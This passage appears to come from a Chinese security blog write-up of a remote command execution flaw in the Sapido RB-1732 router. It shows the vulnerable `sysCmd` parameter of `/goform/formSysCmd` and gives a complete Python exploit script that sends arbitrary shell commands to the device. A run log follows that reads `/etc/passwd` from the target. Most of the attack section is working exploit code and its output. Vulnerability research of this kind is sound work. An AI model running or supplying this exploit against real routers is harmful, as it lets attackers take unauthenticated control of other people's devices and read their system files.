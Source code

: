 

可以看到，命令成功执行。



我们可以抓包来看一下

![](/images/SapidoRB-1732-RCE/11.png)

可以看到 `sysCmd` 参数就是传递我们命令的参数，从第一行也可以看到，真正执行命令的后台程序为 `/goform/formSysCmd` 。感觉也是为我们分析漏洞多了一种思路。

我们也可以通过exploit脚本来攻击该漏洞：

```python
#rb1732_exploit.py
import requests
import sys

def test_httpcommand(ip, command):
    my_data = {'sysCmd': command, 'apply':'Apply', 'submit-url':'/syscmd.asp', 'msg':''}
    r = requests.post('http://%s/goform/formSysCmd' % ip, data = my_data)
    content = r.text
    content = content[
        content.find('textarea row="15" name="msg" cols="80" wrap="virtual">')+56:content.rfind('</textarea>')
    ]
    return content

print test_httpcommand(sys.argv[1]," ".join(sys.argv[2:]))
```

执行结果如下：

```bash
iot@attifyos ~/D/firmware> python rb1732_exploir.py 192.168.1.1 "cat /etc/passwd"
root:x:0:0:root:/:/bin/sh
nobody:x:0:0:nobody:/:/dev/null
ftp:x:501:501::/var/home/anonymous:/dev/null
ftpuser:x:502:502::/var/home:/dev/null
admin:x:503:503::/home:/dev/null
```

## 0x04 参考链接



http://www.mchz.com.cn/cn/service/Safety-Lab/info_26_itemid_6142.html